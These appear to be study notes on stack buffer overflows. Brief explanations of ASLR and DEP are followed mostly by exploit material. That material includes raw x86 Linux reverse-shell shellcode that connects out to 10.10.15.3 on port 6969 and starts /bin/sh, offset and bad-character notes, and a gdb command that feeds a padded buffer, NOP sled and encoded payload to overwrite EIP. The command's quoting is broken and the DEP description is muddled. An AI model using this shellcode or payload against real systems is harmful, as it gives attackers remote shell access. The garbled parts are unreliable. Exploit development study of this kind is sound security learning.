 Address Space Layout Randomization (`ASLR`) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.

---

## Data Execution Prevention (DEP)

`DEP` is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.



```
EIP: 0x66666666
786
2060 to overflow
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd
\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x0a\x0f
\x03\x68\x02\x00\x1b\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3
\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f
\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80

identify bad chars:
buffer = "\x55" * (2064 - 256 - 4)
CHARS=...
EIP = "\x66" * 4
```

`run $(python -c 'print("\x55" * (2064 - 100 - 95 - 4) + "\x90" * 100 + ""\xd9\xe8\xd9\x74\x24\xf4\xbf\xd5\xc2\xbf\x35\x5b\x31\xc9\xb1\x12\x83\xeb\xfc\x31\x7b\x13\x03\xae\xd1\x5d\xc0\x61\x0d\x56\xc8\xd2\xf2\xca\x65\xd6\x7d\x0d\xc9\xb0\xb0\x4e\xb9\x65\xfb\x70\x73\x15\xb2\xf7\x72\x7d\x4f\x02\x8a\x7e\x27\x10\x94\x9b\x8e\x9d\x75\x2b\x96\xcd\x24\x18\xe4\xed\x4f\x7f\xc7\x72\x1d\x17\xb6\x5d\xd1\x8f\x2e\x8d\x3a\x2d\xc6\x58\xa7\xe3\x4b\xd2\xc9\xb3\x67\x29\x89" + "\x66" * 4)')'*)'`